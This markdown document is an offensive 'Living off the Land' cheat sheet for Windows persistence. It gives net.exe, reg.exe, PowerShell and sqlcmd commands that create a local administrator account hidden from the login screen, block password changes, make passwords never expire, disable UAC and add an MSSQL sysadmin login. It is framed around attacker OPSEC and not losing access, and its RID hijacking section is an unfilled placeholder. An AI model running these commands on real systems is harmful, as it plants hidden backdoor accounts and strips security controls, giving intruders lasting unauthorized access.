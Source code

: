 # Living off the Land

## 01 - Create Local User

> [!CAUTION] OPSEC Consideration
> Normally you wouldn't create an account since it is intrusive but hackers had to avoid writing malware on disk as much as possible. Choose your decisions wisely.

### 1.1 - Command Prompt

```
C:\> net.exe user sysadmin s3cur3d+1T /add /y

C:\> net.exe localgroup Administrators sysadmin /add /y
```

Makes the user account invisible from the Windows Login screen

```
C:\> reg.exe add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v sysadmin /t REG_DWORD /d 0 /f
```

Sometimes it's a bit annoying when losing access that somebody changed the password whatever if it's on purpose or accidental. This `/passwordchg:<YES | NO>` option will prevent it from happening.

```
C:\> net.exe user sysadmin /passwordchg:no
```

Never expire the password (this command is intrusive so be careful)

```
C:\> net.exe accounts /maxpwage:unlimited
```

Persistence method to add user account

```
C:\> reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v MS_BACKUP /t REG_DWORD /d 0 /f
```

Disabling UAC that allows the hacker to take full control

```
C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```

Enabling UAC to make the admin restrictive

```
C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f
```

### 1.2 - PowerShell

```powershell
PS C:\> $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
New-LocalUser -Name sysadmin -Password $password
Add-LocalGroupMember -Groups Administrators -Member "sysadmin"
```

Persistence method to add user account

```
PS C:\> Set-ItemProperty -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name MS_BACKUP -Type DWord -Value 0
```

Disabling UAC that allows the hacker to take full control

```
PS C:\> Set-ItemProperty -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name EnableLUA -Type DWord -Value 0
```

Enabling UAC to make the admin restrictive

```
PS C:\> Set-ItemProperty -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name EnableLUA -Type DWord -Value 1
```

### 1.3 - MSSQL

```
C:\> sqlcmd.exe -E [-S <IP>] -U <username> -Q "<query>"
 
1> CREATE LOGIN <username> WITH PASSWORD = '<password>';
2> sp_addsrvrolemember '<username>', 'sysadmin';
3> go
```

## 02 - RID Hijacking

TODO: Fill this heading

---
## References

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [LOFLCAB: net.exe](https://lofl-project.github.io/loflcab/Binaries/net/)

### Red Team Notes

- [Red Team Notes: RID Hijacking](https://www.ired.team/offensive-security/persistence/rid-hijacking)